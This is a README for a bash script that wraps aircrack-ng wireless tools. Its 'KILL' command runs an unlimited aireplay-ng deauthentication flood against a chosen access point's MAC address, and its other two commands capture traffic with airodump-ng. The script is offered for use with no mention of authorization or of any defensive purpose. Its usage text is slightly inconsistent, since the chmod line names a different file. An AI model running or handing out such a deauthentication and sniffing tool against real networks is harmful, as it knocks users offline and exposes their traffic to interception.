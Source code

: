 # Select and Run Wireless Network Commands with a Custom MAC Address

This bash script (`Monitor_Traffic_Or_Kick_Host.sh`) is designed to prompt the user to select a command to run and asks for a MAC address as an input parameter. The script then runs the corresponding command with the provided MAC address.

## Usage
Make sure you have permission to execute the script. If not, run the following command to grant permission:

```console
chmod +x run_commands.sh
```

Execute the script by running the following command:

```console
./Monitor_Traffic_Or_Kick_Host.sh -m <MAC_ADDRESS> -c <COMMAND>
```
The script requires two options to be passed: `-m` for the MAC address and `-c` for the command. The user needs to replace `<MAC_ADDRESS>` with the actual MAC address and `<COMMAND>` with one of the available commands - KILL, Traffic_On_BSSID, All_Traffic.

## Explanation
The script starts by defining default values for the mac and command variables:

The script starts by defining default values for the `mac` and `command` variables:

```console
mac=""
command=""
```

Next, it uses the `getopts` function to parse command-line options:

```console
while getopts "m:c:" opt; do
  case ${opt} in
    m)
      mac=${OPTARG}
      ;;
    c)
      command=${OPTARG}
      ;;
    \?)
      echo "Invalid option: -$OPTARG" >&2
      exit 1
      ;;
    :)
      echo "Option -$OPTARG requires an argument." >&2
      exit 1
      ;;
  esac
done
```

The `getopts` function takes two arguments: a list of valid options, and the name of a variable to hold the selected option. In this script, `m`: and `c`: indicate that the script expects two options: `-m` for the MAC address and `-c` for the command. The `OPTARG` variable holds the value of the selected option.

The script then checks whether the MAC address and command are provided and prints an error message if either is missing:

```console
if [ -z "$mac" ]; then
  echo "MAC address not provided eg. ./script_name.sh -m <MAC_ADDRESS> -c <COMMAND> - Commands KILL - Traffic_On_BSSID - All_Traffic"
  exit 1
fi

if [ -z "$command" ]; then
  echo "Command not provided eg. ./script_name.sh -m <MAC_ADDRESS> -c <COMMAND> - Commands KILL - Traffic_On_BSSID - All_Traffic"
  exit 1
fi
```

If both the MAC address and command are provided, the script runs the selected command with the provided MAC address using a `case` statement:

```console
case $command in
  "KILL")
    sudo aireplay-ng -0 0 -a "$mac" wlan0
    ;;
  "Traffic_On_BSSID")
    sudo airodump-ng --bssid "$mac" -c 6 wlan0mon
    ;;
  "All_Traffic")
    sudo airodump-ng wlan0mon
    ;;
  *)
    echo "Invalid command: $command"
    exit 1
    ;;
esac
```
The `case` statement checks the value of the `command` variable and runs the corresponding command with the provided MAC address.
